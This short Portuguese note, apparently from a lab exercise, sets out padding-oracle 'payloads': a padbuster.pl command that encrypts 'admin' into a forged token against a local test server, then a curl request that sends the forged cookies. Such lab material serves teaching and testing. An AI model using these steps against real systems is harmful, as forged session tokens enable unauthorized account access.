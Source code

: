 

    # Payloads

    Para executa-los sertifique-se de estar rodando o servirdor com as devidas alteracoes 
    
    ./padbuster.pl http://localhost:8085/index.php AAAAAAAAAAAAAAAAAAAAAA== 16 -noiv -encrypt "admin" -cookies "ID=AAAAAAAAAAAAAAAAAAAAAA==;token=AAAAAAAAAAAAAAAAAAAAAA==" -encoding 0 -error "ERROR!"

    o comando gerara uma chave em hexdecimal no output do Padbuster essa chave e ultilizada no script python first_exemple.py gerando a chave final:
    token=gKENdsXk8OgGoDrSp/JXEQ==
    a chave do token e do id sao geradas pelo first_exemple.py ele ultiliza a chave intermediaria gerada pelo comando acima ultilzado no padbuster

    curl -v -H "Cookie: ID=AAAAAAAAAAAAAAAAAAAAAA==; token=gKENdsXk8OgGoDrSp/JXEQ==" http://localhost:8085/index.php
